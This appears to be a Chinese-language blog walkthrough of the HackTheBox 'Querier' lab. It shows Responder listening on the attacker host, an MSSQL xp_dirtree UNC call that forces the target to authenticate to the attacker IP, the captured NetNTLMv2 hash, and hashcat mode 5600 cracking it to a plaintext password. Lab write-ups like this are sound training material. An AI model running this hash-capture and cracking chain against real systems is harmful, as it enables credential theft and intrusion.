






HashCat：如何利用HashCat破解NTLMv2 hash？
0x00 前言
当我们利用Responder拿到目标机做SMB文件共享时使用的NetNTLMv2 hash后，可以利用HashCat对该hash进行破解，还原出明文密码。
在这篇文章中，我会介绍一下，如何利用Responder监听拿到目标机的NetNTLMv2 hash。以及如何使用HashCat破解hash还原密码。
0x01 实验环境
攻击机（Kali Linux）：10.10.14.7
靶机（Microsoft Windows Server 2019 Standard）：10.10.10.125
我们现在以及拿到了一个低权限的MSSQL账号密码，然后想要利用Responder进一步拿到NetNTLMv2 hash。
当然拿到NetNTLMv2 hash的方法还有很多，比如说我18年在朋友圈提到的Word doc UNC注入拿NetNTLMv2 hash。

0x02 如何利用Responder监听目标机器的NetNTLMv2 hash？
第1步：启动Responder
1 | responder -I tun0 |

第2步：利用SMB文件共享，访问攻击机的目录，请求就会打在Responder上了
1 | xp_dirtree "\\10.10.14.7\tonghuaroot.com" |

第3步：检查Responder记录
可以看到我们已经成功拿到了NTLMv2 hash。

1 | mssql-svc::QUERIER:3dedaec57679f94c:D07E7F388AC9FBCC407509FCF0745E13:0101000000000000C0653150DE09D20174F5F4C3BF1B0BDA000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D201060004000200000008003000300000000000000000000000003000006E68D653C9F1101BDD416587149E0A62257D13DFDAE23D53CEF44E8FB43B04120A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003700000000000000000000000000 |
0x03 如何利用HashCat破解NetNTLMv2 Hash？
其实很简单，HashCat在破解密码的时候分为不同的Mode，对应不同的加密方式。
第1步：确认应该采用哪种Mode进行破解
1 | hashcat --example-hashes | less |

MODE: 5600
第2步：加载字典破解NetNTLMv2 hash
（注：这里只是演示使用思路，具体实际环境使用GPU破解、搭建密码破解集群等内容将会在后面的内容为大家介绍。）
1 | hashcat -m 5600 hashes/Querier.ntlmv2 /usr/share/wordlists/rockyou.txt --force |

域：QUERIER
用户名：MSSQL-SVC
密码：corporate568
使用上面HashCat跑出来的凭证我们就可以继续后续的利用了，当然这部分并不是本文讨论的重点。

0x04 后记
在这篇文章种主要记录了一下使用使用HashCat破解NetNTLMv2 Hash。
如果您对我的文章感兴趣，并且再复现的时候遇到了困难，请随时PM我，我非常愿意花时间和您讨论。
PS：渗透这东西主要还是积累、经验和思路，再就是要多动手，HTB这个平台我吹到爆，实验环境多的很，真的是舒服。
0x05 参考链接
[1] Querier, https://www.hackthebox.eu/home/machines/profile/175
[2] HackTheBox - Querier, https://www.youtube.com/embed/d7ACjty4m7U?rel=0&controls=1&modestbranding=1